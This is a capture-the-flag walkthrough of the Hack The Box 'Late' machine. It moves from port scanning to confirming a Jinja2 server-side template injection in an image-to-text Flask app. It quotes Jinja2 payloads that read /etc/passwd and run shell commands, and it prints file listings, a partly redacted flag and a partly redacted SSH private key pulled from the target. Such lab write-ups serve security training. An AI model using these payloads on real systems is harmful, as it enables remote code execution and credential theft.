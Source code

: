 # Late

**Date**: 22/05/2022

**Difficulty**: EASY

**CTF**: [https://app.hackthebox.com/machines/Late](https://app.hackthebox.com/machines/Late)

---

# Recognizance Phase

Let’s start sending a ping to the target IP:

<figure><img src="../../.gitbook/assets/late0.png" alt=""><figcaption></figcaption></figure>

We receive the ping back and we can see that ttl value is 63, so the target machine is a linux.

Let’s scan all TCP ports of the target IP machine and see which ones are open:

<figure><img src="../../.gitbook/assets/late1.png" alt=""><figcaption></figcaption></figure>

It reports us 2 open ports: 22 (probably ssh) and 80 (probably http).

Let’s run some basic enumeration scripts to detect the services and their versions that are running in these ports:

<figure><img src="../../.gitbook/assets/late2.png" alt=""><figcaption></figcaption></figure>

The port 22 is running OpenSSH 7.6p1. If we do a quick search of that version on launchpad:

<figure><img src="../../.gitbook/assets/late3.png" alt=""><figcaption></figcaption></figure>

We can see that the target machine may be running an ubuntu bionic. We’ll see later if it matches.

The port 80 is running a HTTP service and it appears to be using nginx 1.14.0. Let’s launch a whatweb scan to that service:

<figure><img src="../../.gitbook/assets/late4.png" alt=""><figcaption></figcaption></figure>

At email, we can see that it’s using the domain late.htb, so let’s add it to the /etc/hosts file in our machine:

<figure><img src="../../.gitbook/assets/late5.png" alt=""><figcaption></figcaption></figure>

Now, let’s visit the webpage with the IP and with the domain late.htb to see if there is any difference (in this case the page displayed seems to be the same).

<figure><img src="../../.gitbook/assets/late6.png" alt=""><figcaption></figcaption></figure>

Taking a look to the main webpage I discover a link that redirect us to the subdomain `images.late.htb`: 

<figure><img src="../../.gitbook/assets/late7.png" alt=""><figcaption></figcaption></figure>

Let’s add it to the /etc/hosts file and visit it:

<figure><img src="../../.gitbook/assets/late8.png" alt=""><figcaption></figcaption></figure>

Interesting, it seems to be an online service for converting image to text using a tool named Flask. There is a field where we can select a file of our machine and a button that will start the scan process…

Let’s test it with a valid image with text to see what happens:

<figure><img src="../../.gitbook/assets/late9.png" alt=""><figcaption></figcaption></figure>

i have uploaded a PNG file with the text ”Hi, I’m Angel LM!” and after clicking on SCAN IMAGE button the site asks me to download the results… Let’s see what’s inside:

<figure><img src="../../.gitbook/assets/late10.png" alt=""><figcaption></figcaption></figure>

Pretty close to the text!

Let’s investigate about Flask. According to Wikipedia, Flask is a micro web framework written in Python that allows to create web apps.

As we saw earlier, this app is getting an image, finding the text inside it, and sending us the result in an HTML way `<p> THE RESULT </p>`

Maybe we can inject code as a file, inside the file name or in a image as text.

Let’s use Burp Suite to intercept a petition and see more info:

<figure><img src="../../.gitbook/assets/late11.png" alt=""><figcaption></figcaption></figure>

Apparently it is sending the data image by POST to /scanner.

Let’s try to upload a TXT file to the form.

<figure><img src="../../.gitbook/assets/late12.png" alt=""><figcaption></figcaption></figure>

An error “invalid extension” shows up any time I try to upload any file that hasn’t an image file extension.

What if I change the extension to .jpg, creating a non valid image?

<figure><img src="../../.gitbook/assets/late13.png" alt=""><figcaption></figcaption></figure>

Mmm… there is some information leakage? Apparently there is a user named `svc_acc` in the target machine. The files I send to scanner are being saved in `/home/svc_acc/app/uploads/` folder.

Ok, so there is no way to upload a malicious file. What about injecting the code inside the image? If we create an image of a code that could be executed by the framework we get an RCE and maybe we can get a Reverse Shell after.

I found this interesting article from hacktricks: [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). 

The first step is to know if there is an Server Side Template Injection (SSTI) vulnerability.

To do so, I prepared this image:

<figure><img src="../../.gitbook/assets/late14.png" alt=""><figcaption></figcaption></figure>

And received this response from the scan web tool:

```bash
<p>49
${7*7}

<%= /*/] %>
S49
#{7*7}
</p>
```

Apparently, the strings `{{7*7}}` are being executed, so it is vulnerable to SSTI. Nice.

Now, let’s do some more checks to identify the template engine.

<figure><img src="../../.gitbook/assets/late15.png" alt=""><figcaption></figcaption></figure>

Apparently, Flash uses Jinja2 by defect, but let’s check it:

<figure><img src="../../.gitbook/assets/late16.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late17.png" alt=""><figcaption></figcaption></figure>

```bash
<p>7777777
</p>
```

Seems to be Jinja2.

In the hacktricks article, there are some examples of reading remote files exploiting jinja2:

```bash
# ''.__class__.__mro__[2].__subclasses__()[40] = File class
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

And examples of RCE:

```bash
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

The scanning app doesn’t recognize the text very well and it drop errors everytime I try to upload an image with executable code, and it’s hard to know where it failed. To deal with this, I removed the `{{ }}` from the text and modify the size of the text one time after another until the text I wrote is the same I received.

<figure><img src="../../.gitbook/assets/late18.png" alt=""><figcaption></figcaption></figure>

Monospace 36 with kerning adjustments in some parts.

<figure><img src="../../.gitbook/assets/late19.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late21.png" alt=""><figcaption></figcaption></figure>

I tried to launch a reverse shell in multiples ways: bash, python, netcat… but no one succeded, so I’ll do manual enumeration via SSTI i guess…

<figure><img src="../../.gitbook/assets/late22.png" alt=""><figcaption></figcaption></figure>

```bash
<p>svc_acc

</p>
```

<figure><img src="../../.gitbook/assets/late23.png" alt=""><figcaption></figcaption></figure>

```bash
<p>app
file
user.txt

</p>
```

<figure><img src="../../.gitbook/assets/late24.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 60
drwxr-xr-x 9 svc_acc svc_acc  4096 May 23 21:11 .
drwxr-xr-x 3 root    root     4096 Jan  5 10:44 ..
drwxrwxr-x 7 svc_acc svc_acc  4096 May 23 21:16 app
lrwxrwxrwx 1 svc_acc svc_acc     9 Jan 16 18:45 .bash_history -&gt; /dev/null
-rw-r--r-- 1 svc_acc svc_acc  3771 Apr  4  2018 .bashrc
drwx------ 3 svc_acc svc_acc  4096 Apr  7 13:51 .cache
drwxr-x--- 3 svc_acc svc_acc  4096 May 23 20:15 .config
-rw-rw-r-- 1 svc_acc svc_acc     0 May 23 20:42 file
drwx------ 4 svc_acc svc_acc  4096 May 23 20:09 .gnupg
drwxrwxr-x 5 svc_acc svc_acc  4096 Jan  5 12:13 .local
-rw-r--r-- 1 svc_acc svc_acc   807 Apr  4  2018 .profile
drwx------ 2 svc_acc svc_acc  4096 May 23 20:04 .ssh
-rw-r----- 1 root    svc_acc    33 May 23 19:12 user.txt
drwxr-xr-x 2 svc_acc svc_acc  4096 May 23 20:40 .vim
-rw------- 1 svc_acc svc_acc 10192 May 23 21:11 .viminfo

</p>
```

<figure><img src="../../.gitbook/assets/late25.png" alt=""><figcaption></figcaption></figure>

```bash
<p>8374#######################b33

</p>
```

<figure><img src="../../.gitbook/assets/late26.png" alt=""><figcaption></figcaption></figure>

```bash
<p>total 20
drwx------ 2 svc_acc svc_acc 4096 May 23 20:04 .
drwxr-xr-x 9 svc_acc svc_acc 4096 May 23 21:11 ..
-rw-rw-r-- 1 svc_acc svc_acc  394 May 23 20:04 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7 11:08 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7 11:08 id_rsa.pub

</p>
```

```bash
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
################################################################
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

<figure><img src="../../.gitbook/assets/late27.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late28.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late29.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late30.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/late31.png" alt=""><figcaption></figcaption></figure>